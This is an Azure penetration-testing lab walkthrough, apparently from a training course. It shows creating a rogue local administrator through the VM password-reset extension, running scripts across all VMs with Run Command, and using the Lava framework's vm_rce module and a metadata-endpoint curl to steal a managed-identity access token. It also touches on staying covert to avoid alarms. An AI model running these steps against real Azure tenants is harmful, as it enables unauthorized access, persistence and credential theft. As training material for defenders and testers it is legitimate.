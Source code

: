 

## Task 1 – Exploiting the password reset feature to create a local administrative user
In this exercise, we will exploit the password reset feature for Azure VMs to create a local administrative user that can be used to connect to the VM, where we will hunt for credentials on it. 

1. In a PowerShell console on your pentest VM, use the following commands to authenticate to Entra ID (Azure AD) and Azure as the **`Ava`**. Replace the **`USERNAME`** and **`PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file.

```
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
Connect-AzureAD -Credential $cred
```

2. Obtain a list of VMs in the subscription using the following command:
```
Get-AzVM
```

3. Create a new local user on the winvm01 VM using the following command:
```
Set-AzVMAccessExtension -ResourceGroupName "PENTEST-RG" -VMName "winvm01" -Credential (get-credential) -typeHandlerVersion "2.0" -Name VMAccessAgent
```

4. When prompted, enter **`pentestuser`** as the username and **`AzPentestCourse2023!`** as the password, then click **`OK`**.
* This creates a new user account that does not exist on the VM. It only requires the **`runCommand`** permission.

5. Obtain the public IP of **`winvm01`** with the following command:
* Remember that if a VM does not have a public IP or the RDP port is not open, you can always use the Contributor role permissions to expose the service on a public IP. This is a major state change in most environments and increases risk, so it is not recommended for most environments.
```
Get-AzPublicIpAddress -Name winvm01* | Select IpAddress
```

6. Connect to the public IP over RDP and authenticate using the username **`pentestuser`** and the password **`AzPentestCourse2023!`**. Congratulations! You have successfully created a local administrator user on the VM.

**NOTE**: This is a very handy feature, but it's not always the most appropriate tool to use during an assessment. Let's say that we want to be a little more covert in our actions during a test. Creating a new local administrator user on a system might trigger some alarms. As an alternative, we can use native Azure functionality to run commands directly on VMs, without the need for an additional account.

### Task 2 - Exploiting the Run Command feature

1. Get all running Windows VMs in the sunscription into a variable using the following command:
```
$VMs = Get-AzVM -Status | where {($_.PowerState -EQ "VM running") -and ($_.StorageProfile.OSDisk.OSType -eq "Windows")}

$VMs | select ResourceGroupName,Name
```

2. Enter the **`whoami`** command into a PowerShell (ps1) file first:
```
echo "whoami" > whoami.ps1
```

3. To execute commands, we will need to pass in the resource group and the name of the VM that we are running the commands on. Thanks to the magic of the PowerShell pipeline, we can pass the VMs variable to the Invoke-AzRunCommand function, along with the local script:
```
$VMs | Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```

4. While this approach is fine for our sample environment, this will attempt to run your PowerShell script on all VMs in the subscription. You may want to focus on individual VMs for command execution during a normal Azure penetration test. This can be done by specifying individual VMs and resource groups, or by using the indices of the VMs variable that we created earlier. 


### Task 3 - Leveraging Lava for remote code execution
* Lava is a Python-based Microsoft Azure exploitation framework. It has multiple built-in modules that can be used to exploit various misconfigurations in Azure. 

1. Open a PowerShell console on your pentest VM. SSH into the Linux VM specified in your **`LABXX-Info`** exercise file. Enter the password when prompted.
```
ssh linuxadmin@linuxvm-xxxxxxxxxxxxxxxxxxxxxx
```

2. Authenticate to Azure CLI using the following command. Replace the **`AVA_USERNAME`** and **`AVA_PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file:
```
az login --username "AVA_USERNAME" --password "AVA_PASSWORD"
```

3. Download Lava using the following command:
```
git clone https://github.com/mattrotlevi/lava.git
```

4. Switch to the Lava directory and run it using the following commands:
```
cd lava/
python3 lava.py
```

5. In the Lava console, confirm the authenticated user using the **`whoami`** command:
```
whoami
```
6. List all the modules in Lava using the following command:
```
ls
```

7. Lava has a lot of modules that can be used to exploit resources in different scenarios but in this task, we will be using two main modules: **`vm_list_privileged`** and **`vm_rce`**. Use the **`vm_list_privileged`** module to check whether any VM in the subscription is associated with a privileged managed identity. To execute a module in Lava, the command needs to be preceded by the exec keyword:
```
exec vm_list_privileged
```

8. You can see from the output that the module found some VMs with privileged access. Use the **`vm_rce`** module to exploit the Run Command functionality for code execution. You will need to specify the VM name and resource group as shown here:

```
exec vm_rce -rgrp PENTEST-RG -vm_name LinuxVM
```

9. In the shell, run the following command to obtain an access token for the resource manager. This will obtain an access token that can be used to make API calls with the  privileges of the resource:
```
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com' -H Metadata:true
```

10. Highlight and copy only the value of the access token. Make sure you do not copy the trailing comma. Paste it in a notepad document. Type **`exit`** and press **`Enter`** to return to the Lava console. Type **`exit`** again and press **`Enter`** to return to the Bash shell in Linux. 

Congratulations! You have successfully exploited the Run Command functionality to execute code on an Azure resource and obtain an access token that can be used to make API calls with the privileges of the resource. This is a very powerful attack vector that can be used to escalate privileges in Azure.